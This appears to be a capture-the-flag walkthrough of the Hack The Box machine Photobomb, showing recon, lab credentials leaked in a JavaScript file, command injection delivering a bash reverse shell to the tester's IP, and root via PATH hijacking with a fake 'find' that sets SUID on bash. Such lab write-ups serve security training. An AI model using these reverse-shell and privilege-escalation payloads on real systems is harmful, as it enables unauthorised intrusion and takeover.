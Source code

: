 ##### Host entries
```bash
10.10.11.182    photobomb.htb
```

### Content

- Web Enumeration
- Source Code analysis found credentials
- Command Injection
- Path Hijacking

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 500 -Pn -n -vvv -oG allPorts 10.10.11.182
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.182 ()   Status: Up
Host: 10.10.11.182 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
```
Services and Versions running:
```bash
nmap -p22,80 -sCV -Pn -n -vvv -oN targeted 10.10.11.182
Nmap scan report for 10.10.11.182
Host is up, received user-set (0.073s latency).
Scanned at 2023-02-04 06:44:24 GMT for 9s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
| ssh-rsa 
...
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBrVE9flXamwUY+wiBc9IhaQJRE40YpDsbOGPxLWCKKjNAnSBYA9CPsdgZhoV8rtORq/4n+SO0T80x1wW3g19Ew=
|   256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEp8nHKD5peyVy3X3MsJCmH/HIUvJT+MONekDg5xYZ6D
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Only port 80 open, fuzzing retrieves the following entries:
```bash
dirsearch -u http://photobomb.htb                                                                             
...
Target: http://photobomb.htb/

[19:36:43] Starting: 
[19:37:51] 200 -   11KB - /favicon.ico
[19:38:21] 401 -  590B  - /printer
```
Trying to access to this endpoint "/printer" we identify a login prompt which requests credentials that we lack of:
![[Pasted image 20230204133943.png]]
So nothing useful there, after enumerating the machine we receive the following 404 error:
![[Pasted image 20230204134703.png]]
Searching about this Sinatra software we come to this article about [Reflected File Download](https://www.blackhat.com/docs/eu-14/materials/eu-14-Hafif-Reflected-File-Download-A-New-Web-Attack-Vector.pdf) which explains what is the attack vector and how it can be exploited:
![[Pasted image 20230204134845.png]]
Basically it breaks the command by adding a "||" which is an OR operator, so abusing of this same exploit we tried to craft ours as well, we retrieve the following error on BurpSuite that gives us an error with the software used by the application:
![[Pasted image 20230204135106.png]]
WEBrick 1.6.0 and Ruby 2.7.0 is being used, so using searchsploit to find something useful we identify at least three exploits:
```bash
searchsploit webrick
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title            |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Ruby 1.9 - 'WEBrick::HTTP::DefaultFileHandler' Crafted HTTP Request Denial of Service    | multiple/dos/32222.rb
Ruby 1.9.1 - WEBrick 'Terminal Escape Sequence in Logs' Command Injection                | multiple/remote/33489.txt
Ruby on Rails 3.0.5 - 'WEBrick::HTTPRequest' Module HTTP Header Injection                | multiple/remote/35352.rb
```
Since the first one is only a DoS which we don't want to exploit and the third one is using a Ruby version that the server is not running, let's try and check it out what about the second one:
```bash
Ruby WEBrick is prone to a command-injection vulnerability because it fails to adequately sanitize user-supplied input in log files.

Attackers can exploit this issue to execute arbitrary commands in a terminal.

Versions *prior to* the following are affected:

Ruby 1.8.6 patchlevel 388
Ruby 1.8.7 patchlevel 249
Ruby 1.9.1 patchlevel 378

The following example is available:

% xterm -e ruby -rwebrick -e 'WEBrick::HTTPServer.new(:Port=>8080).start' &
% wget http://www.example.com:8080/%1b%5d%32%3b%6f%77%6e%65%64%07%0a
```
Something useful, by using this payload URL-encoded and decoded it we retrieve the following payload:
![[Pasted image 20230204135330.png]]
It seems like it is working(?) by adding a command that sends something to our server and starting a tcpdump we'll be able to check if whether or not is working:
![[Pasted image 20230204135533.png]]
And we also received the ping request on our machine:
```bash
tcpdump -i tun0 -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
19:54:51.815885 IP 10.10.14.3.56582 > 10.10.11.182.80: Flags [S], seq 817744440, win 64240, options [mss 1460,sackOK,TS val 3803628192 ecr 0,nop,wscale 7], length 0
19:54:51.890240 IP 10.10.11.182.80 > 10.10.14.3.56582: Flags [S.], seq 3194106053, ack 817744441, win 65160, options [mss 1337,sackOK,TS val 3095281247 ecr 3803628192,nop,wscale 7], length 0
...
19:54:52.037547 IP 10.10.11.182.80 > 10.10.14.3.56582: Flags [.], ack 398, win 506, options [nop,nop,TS val 3095281395 ecr 3803628340], length 0
```
However we weren't able to go further, no other command was available from here. So let's keep enumerating the web server.
After some basic enumeration we identify some sensitive data in source code on photobomb.js file:
![[Pasted image 20230204135739.png]]
Seems like these are credentials for the /printer endpoint...
### Exploitation
It seems like a web page that downloads images:
![[Pasted image 20230204135851.png]]
While trying to download an image we intercept this request in Burpsuite:
![[Pasted image 20230204140012.png]]
We tried SQLi, XSS and a lot of web attacks but the one that retrieves something useful was command injection (we already knew about this software being vulnerable as per previous research) so by adding a basic command on this machine we received the following error:
![[Pasted image 20230204140155.png]]
The output is not sent in the response, however this seems interesting, so let's try to send a reverse shell with the following payload (URL-encoded):
```bash
bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.3/1234+0>%261'
```
![[Pasted image 20230204140251.png]]
And voila we get a shell as the wizard user:
```bash
wizard@photobomb:~/photobomb$ whoami
whoami
wizard
```
### Privilege Escalation
First let's get a [[Fully interactive TTY (Linux)]]  and let's enumerate the machine:
```bash
# Ip of the machine
ifconfig
inet 10.10.11.182  netmask 255.255.254.0  broadcast 10.10.11.255
# SUID
find / -perm -4000 2>/dev/null
# Execution with sudo
wizard@photobomb:~$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
Now that's interesting, we are able to execute a customized script called cleanup.sh as sudo let's check this out: ^2939e0
```bash
##################  cleanup.sh  ############################
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
As we can see the "find" command is being executed without relative path (such as /bin/cat or /usr/bin/truncate) so this gives us an entry point of a privesc.
In order to hijack a PATH environment we need to first craft a script called as the name of the vulnerable variable, in this case "find":
```bash
# Script that will give special permission to the bash to be run as root without password.
wizard@photobomb:~$ cat find
#!/bin/bash
chmod 4755 /bin/bash
```
Then we need to hijack the environment "PATH" variable with the folder where this new crafted "find" script is located:
```bash
# Actual PATH environment variable:
wizard@photobomb:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
# PATH that we need to inject on such $PATH variable:
wizard@photobomb:~$ echo $PWD
/home/wizard
```
It is of upmost importance to give permissions to the script:
```bash
wizard@photobomb:~$ chmod +x find
```
This way, since the order where a script looks for a non-relative path command/library is from left to right on the $PATH variable, first place that will lookup is the /home/wizard path, to do so we can execute the command adding the PATH environment:
```bash
# export command to add /home/wizard to the PATH
wizard@photobomb:~$ sudo PATH=$PWD:$PATH /opt/cleanup.sh 
wizard@photobomb:~$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```
Finally we can execute the /bin/bash as a root user with the following command:
```bash
wizard@photobomb:~$ /bin/bash -p
bash-5.0# whoami
root
```
### Credentials
```bash
# Access for /printer to be found at /photobomb.js
pH0t0:b0Mb!
```
### Notes

- Path Hijacking is better to be run on the same command to be executed since exchanging the PATH variable and then run the command does not always work:
```bash
sudo PATH=$PWD:$PATH /opt/cleanup.sh
```

### References



